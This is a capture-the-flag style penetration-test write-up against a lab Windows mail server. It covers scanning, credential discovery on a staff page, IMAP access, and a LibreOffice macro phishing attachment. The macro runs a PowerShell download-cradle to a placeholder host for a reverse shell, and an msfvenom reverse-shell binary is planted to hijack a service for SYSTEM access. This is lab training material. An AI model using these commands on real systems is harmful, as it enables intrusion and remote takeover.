Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.109.140
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-25 15:46 IST
Warning: 192.168.109.140 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.109.140
Host is up (0.13s latency).
Not shown: 65448 closed tcp ports (reset), 64 filtered tcp ports (no-response)
PORT      STATE SERVICE
25/tcp    open  smtp
79/tcp    open  finger
105/tcp   open  csnet-ns
106/tcp   open  pop3pw
110/tcp   open  pop3
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
143/tcp   open  imap
443/tcp   open  https
445/tcp   open  microsoft-ds
2224/tcp  open  efi-mg
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8000/tcp  open  http-alt
11100/tcp open  unknown
20001/tcp open  microsan
33006/tcp open  unknown
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 17.11 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 25,79,105,106,110,135,139,143,443,445,2224,5040,7680,8000,11100,20001,33006,49664,49665,49666,49667,49668,49669 192.168.109.140
Starting Nmap 7.95 ( https://nmap.org ) at 2026-03-25 15:49 IST
Nmap scan report for 192.168.109.140
Host is up (0.11s latency).

PORT      STATE  SERVICE        VERSION
25/tcp    open   smtp           Mercury/32 smtpd (Mail server account Maiser)
|_smtp-commands: localhost Hello nmap.scanme.org; ESMTPs are:, TIME
79/tcp    open   finger         Mercury/32 fingerd
| finger: Login: Admin         Name: Mail System Administrator\x0D
| \x0D
|_[No profile information]\x0D
105/tcp   open   ph-addressbook Mercury/32 PH addressbook server
106/tcp   open   pop3pw         Mercury/32 poppass service
110/tcp   open   pop3           Mercury/32 pop3d
|_pop3-capabilities: USER TOP EXPIRE(NEVER) APOP UIDL
135/tcp   open   msrpc          Microsoft Windows RPC
139/tcp   open   netbios-ssn    Microsoft Windows netbios-ssn
143/tcp   open   imap           Mercury/32 imapd 4.62
|_imap-capabilities: CAPABILITY complete AUTH=PLAIN IMAP4rev1 X-MERCURY-1A0001 OK
443/tcp   open   ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
|_http-title: Time Travel Company Page
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods: 
|_  Potentially risky methods: TRACE
445/tcp   open   microsoft-ds?
2224/tcp  open   http           Mercury/32 httpd
|_http-title: Mercury HTTP Services
5040/tcp  open   unknown
7680/tcp  closed pando-pub
8000/tcp  open   http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Time Travel Company Page
11100/tcp open   vnc            VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    Unknown security type (40)
20001/tcp open   ftp            FileZilla ftpd 0.9.41 beta
|_ftp-bounce: bounce working!
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            312 Oct 20  2020 .babelrc
| -r--r--r-- 1 ftp ftp            147 Oct 20  2020 .editorconfig
| -r--r--r-- 1 ftp ftp             23 Oct 20  2020 .eslintignore
| -r--r--r-- 1 ftp ftp            779 Oct 20  2020 .eslintrc.js
| -r--r--r-- 1 ftp ftp            167 Oct 20  2020 .gitignore
| -r--r--r-- 1 ftp ftp            228 Oct 20  2020 .postcssrc.js
| -r--r--r-- 1 ftp ftp            346 Oct 20  2020 .tern-project
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 build
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 config
| -r--r--r-- 1 ftp ftp           1376 Oct 20  2020 index.html
| -r--r--r-- 1 ftp ftp         425010 Oct 20  2020 package-lock.json
| -r--r--r-- 1 ftp ftp           2454 Oct 20  2020 package.json
| -r--r--r-- 1 ftp ftp           1100 Oct 20  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 src
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 static
|_-r--r--r-- 1 ftp ftp            127 Oct 20  2020 _redirects
33006/tcp open   mysql          MariaDB 10.3.24 or later (unauthorized)
49664/tcp open   msrpc          Microsoft Windows RPC
49665/tcp open   msrpc          Microsoft Windows RPC
49666/tcp open   msrpc          Microsoft Windows RPC
49667/tcp open   msrpc          Microsoft Windows RPC
49668/tcp open   msrpc          Microsoft Windows RPC
49669/tcp open   msrpc          Microsoft Windows RPC
Service Info: Host: localhost; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2026-03-25T10:21:58
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 182.22 seconds
```

### Port FTP (20001)

I attempted an **anonymous login** to the FTP services, which succeeded. However, there was **no sensitive information** retrievable through this access.



### Port 2224 (HTTP, Mailing List Subscriber Services)

No obvious injection points or exploitable functionality on this web service.



### Port 8000 & 4443 (HTTP/S)

I found a **company profile site** with no obvious injection points or exploitable functionality. Despite that, a valuable discovery was made — the **employee list** was publicly visible on the website.




### Gathering Usernames

I extracted all the employee names and compiled them into a custom **username wordlist** for further enumeration.



Here are the list of employee:



### Gathering Passwords

While gathering usernames from the **employee list**, I noticed that each employee had a clearly defined role — for example, _Magnus_ was listed as a **Designer**.

However, one entry stood out:
 `Jonas : SicMundusCreatusEst`
 


That phrase clearly isn’t a job title — in fact, it’s a Latin phrase meaning _“Thus the world was created”_. This hinted strongly that it might actually be a **password**. I took note of it and considered the following for the next step:

- Possible valid credential: `jonas:SicMundusCreatusEst`
- Use `SicMundusCreatusEst` as a **password candidate** during **password spraying** attempts

### E-Mail Related Port Pentest

After building a custom **username and password wordlist**, I proceeded with **SMTP enumeration** on port **25** using the tool `smtp-user-enum`.

```sh
smtp-user-enum -M VRFY -U users.txt -t 192.168.109.140
```



The enumeration results revealed **5 valid SMTP users**: `agnes, magnus, charlotte, martha, jonas` . These were noted as **valid email accounts** on the mail server.

Previously, I had identified potential valid credentials: `jonas : SicMundusCreatusEst` .

Using these credentials, I attempted to access the **IMAP service** running on port **143**. Upon accessing the mailbox, I found:

- **1 folder:** `INBOX`
- **5 email messages** inside

```sh
nc 192.168.109.140 143
```

#### Steps for enumeration: 

```sh
A1 LOGIN jonas SicMundusCreatusEst
A1 list "" *
A1 select INBOX
A1 status INBOX (MESSAGES)
A1 fetch 1 (BODY[1])
A2 FETCH 1:5 BODY[]  #since we know that there are 5 mails in Inbox.

```



Upon inspecting the **body of each email** inside `jonas`'s inbox, I discovered a recurring theme:

**“All the spreadsheets and documents will be first procesed in the mail server directly to check the compatibility.”**

This suggests that the **mail server** is actively parsing or handling uploaded documents — potentially opening up a file-based attack surface (e.g., macro injection).

The email was sent from: `mailadmin@localhost` .



### Initial Access: Email Phishing

Based on this information, I’ve identified a phishing scenario: sending an email with a subject related to a spreadsheet or document to `mailadmin@localhost`. Since the latest mail server is confirmed to use LibreOffice, I need to craft a **malicious document in ODT or ODS format** containing a macro for a reverse shell.

To generate the malicious ODS document, I used the following tool: `https://github.com/0bfxgh0st/MMG-LO/`

With a few modifications to the generator, I adjusted the macro to download `powercat.ps1` from my Python3 web server and use it to establish a reverse shell.

Step 1: Download powercat

```sh
wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1
```

Step 2: Understand the Payload (CORE PART)

```PS
IEX(New-Object System.Net.WebClient).DownloadString("http://YOUR_IP/powercat.ps1"); powercat -c YOUR_IP -p 1337 -e powershell
```

What this does:
Part 1:

`IEX(New-Object System.Net.WebClient).DownloadString(...)`

Downloads and executes powercat in memory

Part 2:

`powercat -c YOUR_IP -p 1337 -e powershell`

Connects back to you and gives shell.

Step 3: Changing the exploit with our payload.

Original exploit.



Modified exploit.

Use single quotes at beginning and ending as there already double quotes in the payload.



Then start python server where powercat.ps1 is located and then start the nc listener.



Now its time to send the email to server.

```sh
sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.109.140 --body "Please check this spreadsheet" --header "Subject: Important document"
```

### Breakdown:

|Option|Meaning|
|---|---|
|`-t`|Target email|
|`--from`|Sender (valid user: jonas)|
|`--attach`|Attach malicious file|
|`--server`|SMTP server|
|`--body`|Email message|
|`--header`|Subject line|


We got the shell.



### Privilege Escalation: Service Binary Hijacking

The next step was to escalate privileges. I began by uploading `PowerUp.ps1` to the target machine and importing the module. Then, I executed `Invoke-AllChecks` and discovered that the service binary `veyon-service.exe` was vulnerable to a **service binary hijacking** attack.

Step 1: Downloading powerup.ps1 on own system.
```sh
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```

Step 2: After starting python server, transferred it to the target.
```PS
certutil -urlcache -split  -f http://192.168.45.201/PowerUp.ps1 PowerUp.ps1
```

Step 3: Running powerup. (You must **dot source** the script.)
```PS
. .\PowerUp.ps1; Invoke-AllChecks
```

`. <space> .\PowerUp.ps1`

This:

- Loads all functions into memory
- Makes `Invoke-AllChecks` available





We can manually check the file permissions of the service binary `veyon-service.exe`, and confirmed that my current user had **Full Access**. This meant I could replace the binary with a malicious executable of my own.

```PS
icacls "C:\Users\Ela Arwel\Veyon\veyon-service.exe"
```



Without hesitation, I generated a malicious `.exe` file configured to initiate a reverse shell.

```sh
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.201 LPORT=1338 -f exe > rev.exe
```

Then, I uploaded the malicious binary to the target machine and **replaced** the original `veyon-service.exe` with my payload.

```sh
certutil -urlcache -split -f http://192.168.45.201:8000/rev.exe rev.exe
move "C:\Users\Ela Arwel\Veyon\veyon-service.exe" "C:\Users\Ela Arwel\Veyon\veyon-service.exe.bak"
move rev.exe "C:\Users\Ela Arwel\Veyon\veyon-service.exe"
```




Next, I attempted to restart the service.



**Oops!** The service couldn’t be restarted manually — as indicated by the `Invoke-AllChecks` result: `CanRestart: False`. This meant I had to **reboot the machine** for the malicious binary to be executed. Before proceeding with the reboot, I made sure to start my **netcat listener**.



After waiting a few moments post-reboot, I checked the listener — and successfully received a reverse shell as `SYSTEM` user.



Captured both flags.


